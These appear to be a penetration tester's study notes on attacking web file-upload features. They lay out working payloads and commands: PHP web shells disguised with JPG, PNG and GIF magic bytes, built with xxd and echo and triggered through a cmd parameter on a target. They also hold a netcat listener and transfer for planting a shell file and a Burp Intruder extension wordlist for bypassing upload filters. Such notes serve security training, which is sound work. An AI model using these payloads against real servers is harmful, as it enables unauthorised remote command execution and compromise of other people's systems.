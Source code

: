 #### formats
Windows: Try asp, aspx, hta, doc malicious file uploads.
Web: Try php
#### weevely
[[Weevely]]
#### filter bypass
Inspect for filters from web page:
Right click on "Chose File" button > Inspect
Look for some form of "accept=" property.
ALSO, look in main file, such as main.js
![[Pasted image 20220905133644.png]]
Look into `allowedMimeType` for file types.
In this example, we see we can upload xml files.
[[11._XML XXE#Quick file upload win]]
#### Magic bytes
Magic bytes are used to identify the type of the file, and are usually found at the beginning of it. Other files have the magic bytes at their offset, while some other files (such as plain text files) do not have magic bytes at all. The position of the magic bytes also varies on different filesystems.
JPG:
Adding magic bytes for the JPG format to our PHP file might let us bypass this check.  We can refer to the list of magic bytes at https://en.wikipedia.org/wiki/List_of_file_signatures.
Valid magic bytes for a JPG/JPEG file are:
1. `FF D8 FF DB`
2. `FF D8 FF E0 00 10 4A 46 49 46 00 01`
3. `FF D8 FF EE`
4. `FF D8 FF E1 ?? ?? 45 78 69 66 00 00`
![[Pasted image 20220922121011.png]]
```bash - kali
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg
```
```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.jpg
```
![[Pasted image 20220922121036.png]]
`http://$TARGET/uploads/webshell.php.jpg?cmd=whoami`
PNG:
The magic bytes for PNG are:
1. `89 50 4E 47 0D 0A 1A 0A`
```bash - kali
echo '89504E470D0A1A0A' | xxd -r -p > webshell.php.png
```
```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.png
```
`http://$TARGET/uploads/webshell.php.png?cmd=whoami`
#### GIF
Upload Shelly.php as a "GIF"
```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```
#### File upload webshell
Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```
Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```
Visit file upload to connect reverse shell.
### Bypassing extension limits.
1. Capture and upload in Burp.
2. Send to Intruder.
3. Dictionary attack the extension (PHP example below).
```burpsuite - kali
php
php3
php4
php5
phtml
```